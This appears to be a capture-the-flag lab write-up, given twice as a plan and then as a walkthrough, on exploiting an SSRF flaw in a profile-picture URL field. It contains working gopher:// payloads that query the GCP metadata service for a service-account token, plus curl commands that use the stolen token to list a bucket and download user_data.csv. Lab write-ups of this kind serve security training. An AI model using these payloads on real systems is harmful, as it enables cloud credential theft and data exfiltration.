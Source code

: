 # Exploit SSRF Gopher GCP Initial Access
## Analyze the challenge


The challenge is exploiting an SSRF vulnerability using the Gopher protocol to gain initial access to a GCP environment. This involves using the Gopher protocol to bypass SSRF protections and access the GCP metadata service.

## Plan of action

1. **Identify the SSRF Vulnerability:**
    
    -   Locate the functionality in the web application that allows users to input URLs.
    -   Confirm the SSRF vulnerability by testing with external URLs and observing the application's response.
2. **Bypass SSRF Protection with Gopher:**
    
    -   Understand the Gopher protocol and how it can be used to craft HTTP requests.
    -   Construct a Gopher URL that encapsulates an HTTP request to the GCP metadata service, including the necessary `Metadata-Flavor: Google` header.
3. **Access the GCP Metadata Service:**
    
    -   Use Burp Suite to intercept and modify requests to the vulnerable endpoint.
    -   Replace the legitimate URL with the crafted Gopher payload.
    -   Send the modified request to the server.
4. **Enumerate Service Accounts and Obtain Access Token:**
    
    -   Analyze the response from the metadata service to identify associated service accounts.
    -   Modify the Gopher payload to request an access token for the identified service account.
    -   Extract the access token from the server's response.
5. **Authenticate and Access GCP Resources:**
    
    -   Set the `GOOGLE_ACCESS_TOKEN` environment variable with the extracted token.
    -   Use `curl` to make authenticated requests to GCP API endpoints, such as listing objects in a storage bucket.
6. **Locate and Download Sensitive Data:**
    
    -   Identify sensitive files or data within the accessible GCP resources.
    -   Use `curl` with the access token to download the identified files.


1. **Identify the SSRF Vulnerability:**
    
    -   The walkthrough indicates that the `profile.php` page allows users to set a profile picture by providing a URL. This is a potential SSRF vulnerability.
    -   Testing with `http://example.com` as the URL parameter value confirms the vulnerability, as the application fetches and displays the content of the external URL.

2. **Bypass SSRF Protection with Gopher:**
    
    -   The Gopher protocol allows crafting raw TCP packets, which can be used to create HTTP requests.
    -   The Gopher URL will be constructed as follows:
        
        `gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a`
        
        This URL encodes an HTTP GET request to the metadata service, including the `Metadata-Flavor: Google` header.


3. **Access the GCP Metadata Service:**
    
    -   Using Burp Suite, intercept the request to `profile.php` when submitting a URL.
    -   Replace the URL parameter value with the crafted Gopher payload.
    -   Send the modified request to the server.


4. **Enumerate Service Accounts and Obtain Access Token:**
    
    -   The response from the initial Gopher request will list the associated service accounts.
    -   Modify the Gopher payload to request a token for the identified service account (`bucketviewer@gr-proj-1.iam.gserviceaccount.com`):
        
        `gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a`
        
    -   Extract the access token from the HTML-encoded response.


5. **Authenticate and Access GCP Resources:**
    
    -   Set the `GOOGLE_ACCESS_TOKEN` environment variable: `export GOOGLE_ACCESS_TOKEN=<token>`
    -   Use `curl` with the `-H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN"` header to make authenticated requests.
    -   For example, list objects in the `gigantic-retail` bucket:
        
        `curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/storage/v1/b/gigantic-retail/o"`
        


6. **Locate and Download Sensitive Data:**
    
    -   The `curl` command to list objects reveals a file named `user_data.csv`.
    -   Download the file using the provided `mediaLink`:
        
        `curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"`
        


## Here goes:

Here's a breakdown of the steps to exploit the SSRF vulnerability and gain initial access to the GCP environment:

### 1. Identify the SSRF Vulnerability

-   **Locate the vulnerable functionality:** The `profile.php` page allows users to set a profile picture by providing a URL. This is a potential SSRF vulnerability.
-   **Confirm the SSRF vulnerability:**
    -   Submit a URL like `http://example.com` in the profile picture field.
    -   Observe that the application fetches and displays the content of `example.com`, confirming the SSRF vulnerability.

### 2. Bypass SSRF Protection with Gopher

-   **Understand the Gopher protocol:** Gopher allows crafting raw TCP packets, which can be used to create HTTP requests.
-   **Construct the Gopher payload:**
    
    ```
    gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
    
    ```
    
    This payload encodes an HTTP GET request to the metadata service, including the required `Metadata-Flavor: Google` header.

### 3. Access the GCP Metadata Service

-   **Use Burp Suite:** Intercept the request to `profile.php` when submitting a URL.
-   **Modify the request:** Replace the `url` parameter value with the crafted Gopher payload.
-   **Send the request:** Send the modified request to the server.

### 4. Enumerate Service Accounts and Obtain Access Token

-   **Analyze the response:** The response from the initial Gopher request will list the associated service accounts, including `bucketviewer@gr-proj-1.iam.gserviceaccount.com`.
-   **Modify the Gopher payload:**
    
    ```
    gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
    
    ```
    
-   **Send the modified request:** This will request an access token for the identified service account.
-   **Extract the access token:** The response will contain the access token, HTML-encoded. Use Burp Suite's decoder to extract the plain text token.

### 5. Authenticate and Access GCP Resources

-   **Set the environment variable:**
    
    ```bash
    export GOOGLE_ACCESS_TOKEN=<your_extracted_token>
    
    ```
    
-   **Use `curl` for authenticated requests:**
    
    ```bash
    curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/storage/v1/b/gigantic-retail/o"
    
    ```
    
    This command lists objects in the `gigantic-retail` bucket.

### 6. Locate and Download Sensitive Data

-   **Identify sensitive files:** The output of the previous `curl` command reveals a file named `user_data.csv`.
-   **Download the file:**
    
    ```bash
    curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"
    
    ```
    
    This command downloads the `user_data.csv` file, which contains sensitive user information.
-   The flag is also stored in the bucket.

